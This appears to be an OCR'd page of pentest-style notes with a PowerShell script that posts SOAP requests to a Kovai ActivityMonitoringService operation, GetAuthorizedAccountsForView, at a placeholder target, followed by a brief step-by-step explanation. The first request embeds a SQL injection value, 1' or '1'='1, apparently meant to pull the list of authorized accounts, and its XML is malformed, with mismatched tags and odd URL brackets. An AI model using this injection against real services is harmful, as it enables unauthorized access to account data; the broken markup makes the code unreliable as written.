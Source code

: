 - Example SOAP Request for `GetAuthorizedAccountsForView`

```
$uri = "<https://www.example.com/Services.REST/ActivityMonitoringService.svc?wsdl>" 
$soapAction = "<https://www.kovai.co.uk/IActivityMonitoringService/GetAuthorizedAccountsForView>" 

$soapBody = @"
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
	<soapenv:Header/>
	<soapenv:Body>
		<GetAuthorizedAccountsForView xmlns="http://www.kovai.co.uk/services/1.0/">
			<tns:>1' or '1'='1</web:parameter>
		</GetAuthorizedAccountsForView>
	</soapenv:Body>
	</soapenv:Envelope>
"@

$response = Invoke-WebRequest -Uri $uri -UseDefaultCredentials -Method POST -Body $soapBody -ContentType "text/xml" -Headers @{SOAPAction = $soapAction}

$response.Content | Out-File -FilePath "<C:\4_Service_Operations_Message_Response.txt>"


$uri = "http://<target_ip>:<target_port>/Service.svc"
$soapAction = "http://www.kovai.co.uk//IActivityMonitoringService/GetAuthorizedAccountsForView"
$soapBody = @"
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
   <soapenv:Header/>
   <soapenv:Body>
      <GetAuthorizedAccountsForView xmlns="http://www.kovai.co.uk/services/1.0/">
         <!-- Insert required parameters here -->
      </GetAuthorizedAccountsForView>
   </soapenv:Body>
</soapenv:Envelope>
"@

$response = Invoke-WebRequest -Uri $uri -UseDefaultCredentials -Method POST -Body $soapBody -ContentType "text/xml" -Headers @{SOAPAction = $soapAction}
$response.Content
```

This script attempts to call different SOAP actions by name and checks the response to see if the method exists and how the server responds. This operation is likely designed to return a list of accounts that are authorized to view specific data within the service. Here's how you would construct and send this SOAP request using PowerShell.

### Step 1: Define the Target Service URI and SOAP Action

- **URI**: This is the endpoint where the `.svc` file is hosted. It usually looks something like `http://<target_ip>:<target_port>/Service.svc`.
- **SOAP Action**: This is a URI that uniquely identifies the operation you want to invoke. It is typically defined in the WSDL under the `wsaw:Action` attribute for each operation.

